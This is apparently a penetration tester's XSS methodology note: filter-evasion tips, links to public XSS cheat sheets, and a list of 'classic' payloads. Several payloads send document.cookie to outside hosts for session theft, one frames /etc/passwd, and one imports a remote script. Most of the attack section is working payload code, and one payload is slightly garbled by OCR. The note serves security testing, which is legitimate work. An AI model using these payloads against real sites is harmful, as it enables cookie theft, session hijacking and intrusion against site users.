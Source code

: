 - [ ] fuzz for what events are allowed
	- [ ] can combo onload `id=x` and `#` on a src/href if onerror isn't available
	- [ ] if href is explicitly disallowed can use `svg` and `animate` to define attributeName as href
	- [ ] `x=x=>{alert(1)}` can be used to define a functions then call is after defining it
		- [ ] toString can be redefined to x, concatenating window can call toString

{% endraw %}
## Capabilities

XSS  
Webapp Capabilities  

## Found In

User Input  
Parameters  
Account Registration  

## Tools/Examples

[https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[https://developer.mozilla.org/en-US/docs/Web/API/Location#wikiArticle](https://developer.mozilla.org/en-US/docs/Web/API/Location#wikiArticle)
[https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/javascript-injection-xss/xss-methodology](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/javascript-injection-xss/xss-methodology)


classics
```
"><u>test123
<u/onmouseover-alert(1)>test123
print()
<svg/onload=alert(1)>
<link rel="canonical" accesskey="X" onclick="alert(1)" />
<img src=x onerror=this.src="http://192.168.2.50:8080/?"+document.cookie;>
<script>document.location='http://10.10.14.5/?'+document.cookie</script>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
<a href="http://"onmouseover="prompt(1);">
<img src=1 onerror=alert(1)>
<img src=x onerror='eval(atob(""))'>
<script src=data:text/javascript,alert(1)></script>
<img src=x onerror=import('https://mysite.com/1.js')>
```

exploiting src in tags
```
<script/src=data:,alert()>
<script src="data:text/javascript,alert(1)"></script>
```
